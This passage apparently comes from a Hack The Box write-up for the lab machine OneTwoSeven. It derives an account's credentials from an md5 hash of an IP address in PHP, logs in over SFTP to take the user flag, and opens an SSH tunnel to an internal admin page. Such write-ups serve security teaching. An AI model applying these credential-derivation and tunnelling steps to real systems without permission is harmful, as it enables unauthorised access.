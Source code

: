 ```
php > echo "ots-" . substr(str_replace('=','',base64_encode(substr(md5("127.0.0.1"),0,8))),3);
ots-yODc2NGQ
php > echo substr(md5("127.0.0.1"),0,8);
f528764d
```

Password: `f528764d`

I can SFTP in with that account and get the user flag:

```
# sftp ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password:
Connected to ots-yODc2NGQ@10.10.10.133.
sftp> ls
public_html  user.txt
sftp> get user.txt
Fetching /user.txt to user.txt
```

```
# cat user.txt
93a4ce...
```

### Pivoting to the local administration page

I'll use SSH tunneling to get access to port 60080 on the server. But I need to pass the `-N` flag to SSH so it does try to spawn a shell (because only SFTP is enabled).

```
# ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password:
```

I can now access the administration web page through my tunnel at `127.0.0.1:60080`

![](/assets/images/htb-writeup-onetwoseven/admin1.png)
